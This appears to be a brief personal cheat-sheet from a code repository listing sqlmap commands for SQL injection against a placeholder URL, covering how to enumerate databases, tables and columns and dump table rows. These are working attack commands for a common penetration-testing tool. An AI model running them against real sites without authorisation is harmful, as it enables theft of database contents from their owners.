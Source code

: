 # SQLMAP commands

This is a simple file for remind me some sqlmap instructions.

### Show databases
	sqlmap someurl.com/file.php?action=arg --dbs

### Show tables
	sqlmap someurl.com/file.php?action=arg -D SomeDatabase --tables

### Show columns
	sqlmap someurl.com/file.php?action=arg -D SomeDatabase -T someTable --columns

### Get rows of table
	sqlmap someurl.com/file.php?action=arg -D SomeDatabase -T someTable --dump	
